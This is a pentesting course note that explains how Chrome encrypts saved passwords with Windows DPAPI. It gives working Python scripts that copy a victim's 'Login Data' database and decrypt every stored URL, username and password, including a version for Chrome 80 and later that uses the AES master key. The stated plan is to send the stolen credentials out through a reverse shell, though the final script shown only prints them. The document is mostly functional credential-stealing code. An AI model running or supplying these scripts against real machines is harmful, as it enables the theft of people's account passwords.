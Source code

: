 ```yaml
---
title: Dumping saved passwords from Google Chrome
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - keylogger
---
```


# Dumping saved passwords from Google Chrome

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).



## How does Chrome saved passwords work?

Chrome uses windows session password to encrypt and decrypt saved passwords. Encrypted passwords are stored  in a SQlite  db called 'Login Data DB' located at:

```
C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default
```

Chrome calls to the windows API function called "CryptProtectData", which uses the windows login password as an encryption key and in reverse operation a windows API function called "CryptUnprotectData" to decrypt the password value back to clear text.

**1.** Install sqlite from: https://sqlitebrowser.org/dl/

**2.** Open DB Browser sqlite.

**3.** In your windows explorer, go to the path where sqlite db is stored and  copy the file "Login Data" to your Desktop.

**4.** Change the extension of "Login Data" file to .sqlite3

**5.** Open "Login Data.sqlite3" in DB Browser sqlite.

**6.** Go to tab "Browse Data" (Hoja de Datos in spanish) and select the table login. There you have all stored passwords.


## Our script

The route map for this script will be:

**1.** Guessing the path to sqlite database: username and browser used by the victim.

```
C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default
```

**2.** Sending the password value from a column in "logins" table, in "Login Data.sqlite3" to function CryptUn ProtectData.

**3.** Send the passwords through a reverse shell.

### Script for gathering passwords

Here is the script provided in the course (it doesn't work, below I've pasted a different one that works):

```python
# Python For Offensive PenTest: A Complete Practical Course  - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


from os import getenv 
# To find out the Chrome SQL path- C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Login Data

import sqlite3 # To read the Chrome SQLite DB

import win32crypt  # High level library to call windows API CryptUnprotectData

from shutil import copyfile # To make a copy of the Chrome SQLite DB


# LOCALAPPDATA is a Windows Environment Variable which points to >>> C:\Users\{username}\AppData\Local
path = getenv("LOCALAPPDATA")+r"\Google\Chrome\User Data\Default\Login Data"

# make a copy the Login Data DB and pull data out of the copied DB, so there are no conflicts in case that the user is using the original (maybe she is logged into facebook, let's say)
path2 = getenv("LOCALAPPDATA")+r"\Google\Chrome\User Data\Default\Login2"
copyfile(path, path2)

# Connect to the copied Database
conn = sqlite3.connect(path2)


cursor = conn.cursor() #Create a Cursor object and call its execute() method to perform SQL commands like SELECT

# SELECT column_name,column_name FROM table_name
# SELECT action_url and username_value and password_value FROM table logins
cursor.execute('SELECT action_url, username_value, password_value FROM logins')


# To retrieve data after executing a SELECT statement, we call fetchall() to get a list of the matching rows.
for raw in cursor.fetchall():

    print(raw[0] + '\n' + raw[1]) # print the action_url (raw[0]) and print the username_value (raw[1])

    password = win32crypt.CryptUnprotectData(raw[2])[1] # pass the encrypted Password to CryptUnprotectData API function to decrypt it  

    print(password)
conn.close()


```


Script that works. These are requirements:

```
pip install PyCryptodome
```


Script:

```python
import os
import json
import base64
import sqlite3
import win32crypt
from Crypto.Cipher import AES
import shutil

def get_master_key():
    with open(os.environ['USERPROFILE'] + os.sep + r'AppData\Local\Google\Chrome\User Data\Local State', "r") as f:
        local_state = f.read()
        local_state = json.loads(local_state)
    master_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    master_key = master_key[5:]  # removing DPAPI
    master_key = win32crypt.CryptUnprotectData(master_key, None, None, None, 0)[1]
    return master_key

def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(buff, master_key):
    try:
        iv = buff[3:15]
        payload = buff[15:]
        cipher = generate_cipher(master_key, iv)
        decrypted_pass = decrypt_payload(cipher, payload)
        decrypted_pass = decrypted_pass[:-16].decode()  # remove suffix bytes
        return decrypted_pass
    except Exception as e:
        # print("Probably saved password from Chrome version older than v80\n")
        # print(str(e))
        return "Chrome < 80"
 

master_key = get_master_key()
login_db = os.environ['USERPROFILE'] + os.sep + r'AppData\Local\Google\Chrome\User Data\default\Login Data'
shutil.copy2(login_db, "Loginvault.db") #making a temp copy since Login Data DB is locked while Chrome is running
conn = sqlite3.connect("Loginvault.db")
cursor = conn.cursor()
try:
    cursor.execute("SELECT action_url, username_value, password_value FROM logins")
    for r in cursor.fetchall():
        url = r[0]
        username = r[1]
        encrypted_password = r[2]
        decrypted_password = decrypt_password(encrypted_password, master_key)
        if len(username) > 0:
            print("URL: " + url + "\nUser Name: " + username + "\nPassword: " + decrypted_password + "\n" + "*" * 50 + "\n")
except Exception as e:
    pass
cursor.close()
conn.close()
try:
    os.remove("Loginvault.db")
except Exception as e:
    pass
```


### Script with gathering passwords phase integrated in a reverse shell


```python
# Python For Offensive PenTest: A Complete Practical Course  - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import json
import base64
from os import getenv 
# To find out the Chrome SQL path- C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Login Data

import sqlite3 # To read the Chrome SQLite DB
from Crypto.Cipher import AES
import win32crypt  # High level library to call windows API CryptUnprotectData

from shutil import copyfile # To make a copy of the Chrome SQLite DB


# LOCALAPPDATA is a Windows Environment Variable which points to >>> C:\Users\{username}\AppData\Local
path = getenv("LOCALAPPDATA")+r"\Google\Chrome\User Data\Default\Login Data"

# make a copy the Login Data DB and pull data out of the copied DB
path2 = getenv("LOCALAPPDATA")+r"\Google\Chrome\User Data\Default\Login2"
copyfile(path, path2)

# Connect to the copied Database
conn = sqlite3.connect(path2)


cursor = conn.cursor() #Create a Cursor object and call its execute() method to perform SQL commands like SELECT

# SELECT column_name,column_name FROM table_name
# SELECT action_url and username_value and password_value FROM table logins
cursor.execute('SELECT action_url, username_value, password_value FROM logins')


# To retrieve data after executing a SELECT statement, we call fetchall() to get a list of the matching rows.
for raw in cursor.fetchall():

    print(raw[0] + '\n' + raw[1]) # print the action_url (raw[0]) and print the username_value (raw[1])

    password = win32crypt.CryptUnprotectData(raw[2])[1] # pass the encrypted Password to CryptUnprotectData API function to decrypt it  

    print(password)
conn.close()
```